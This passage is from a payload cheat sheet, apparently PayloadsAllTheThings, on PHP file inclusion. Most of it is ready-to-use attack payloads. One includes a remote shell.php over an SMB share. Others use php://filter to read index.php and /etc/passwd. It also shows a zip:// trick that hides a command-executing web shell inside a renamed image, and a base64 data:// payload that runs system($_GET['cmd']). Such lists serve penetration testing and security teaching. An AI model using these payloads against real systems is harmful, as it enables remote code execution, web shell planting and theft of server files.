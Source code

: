 When allow_url_include and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the smb protocol.

- Create a share open to everyone
- Write a PHP code inside a file : shell.php
- Include it ```%%http://example.com/index.php?page=\\10.0.0.1\share\shell.php%%```

***

## LFI / RFI using wrappers

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

### Wrapper php://filter

The part %%php://filter%% is case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained:
```
php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s''
```

### Wrapper zip://

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
